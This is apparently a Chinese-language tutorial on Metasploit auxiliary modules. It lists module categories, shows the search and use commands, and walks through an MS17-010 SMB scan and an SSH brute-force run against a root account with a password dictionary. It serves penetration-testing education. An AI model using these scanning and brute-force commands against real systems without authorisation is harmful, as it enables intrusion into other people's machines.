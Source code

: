 说明：我们知道msf辅助模块有上千个，主要用于信息搜集阶段，功能包括扫描、口令猜解、敏感信息嗅探、FUZZ测试发掘漏洞、实施网络协议欺骗等

# 一、怎么查询 Auxiliary辅助模块

我们可以通过以下命令查询所有 Auxiliary辅助模块

`use auxiliary/` 或   `show auxiliary`

# 二、 Auxiliary辅助模块分类

---

#### admin

---

/admin/android

/admin/http

/admin/mysql/

/admin/oracle/

/admin/vmware/

/admin/smb/

---

#### dos

---

/dos/android/

/dos/http/

/dos/cisco/

/dos/dns/

/dos/smb/

/dos/windows/ftp/

---

#### fuzzers

---

/fuzzers/http/

/fuzzers/smb/

/gather/

---

#### scanner

---

/scanner/portscan/

/scanner/ftp/

/scanner/http/

/scanner/ssh/

/scanner/smb/

/scanner/vmware/

/scanner/vnc/

/scanner/telnet/

/scanner/msyql/

/scanner/ntp/

/scanner/openvas/

/scanner/sap/

#### server

/server/

# 三、通过分类查询指定模块

通过search查询指定模块

`search type:auxiliary name:smb`

type： 后门跟的的**模块类型**   name ： 后门跟的就是要搜的**模块名**

# 四、怎么调用模块

我们调一个smb模块演示

1 查询与SMB	相关的辅助模块

`search type:auxiliary name:smb`

2 加载一个ms17_010探测模块

`use auxiliary/scanner/smb/smb_ms17_010`

3 查看载入模块需要配置的参数

`show options`

![1645511393570](https://img.gyxnb.top/img/1645511393570.png)

`set RHOSTS 192.168.70.14`   (设定目标IP)

`set THREADS 10`    （如果觉得探测过慢可以增加线程，根据电脑实际性能来不要配置太多 个人建议最大10）

`run` （执行探测）

![1645511404119](https://img.gyxnb.top/img/1645511404119.png)

![1645511415106](https://img.gyxnb.top/img/1645511415106.png)

# 五、更多

1 whois查看域名或**IP信息**  

`whois www.baidu.com`

`whois 192.168.0.1`

2  利用辅助模块查找**邮箱**

`use auxiliary/gather/search_email_collector`

3 DNS枚举，使用auxiliary模块下的**DNS枚举**模块：

`use auxiliary/gather/enum_dns`

4 ssh爆破，使用auxiliary模块下的**ssh_login**

`use /auxiliary/scanner/ssh/ssh_login`

`set RHOSTS 192.168.70.3`   (设定目标IP)
`set USERNAME root`    （设定ssh登陆账户）
`set PASS_FILE /kevin/ssh_passwd.txt`   （设定暴力字典）
`set THREADS 100`           (线程设置为100)
`show options`                   (查看更改后的参数)12345

`run`   开始爆破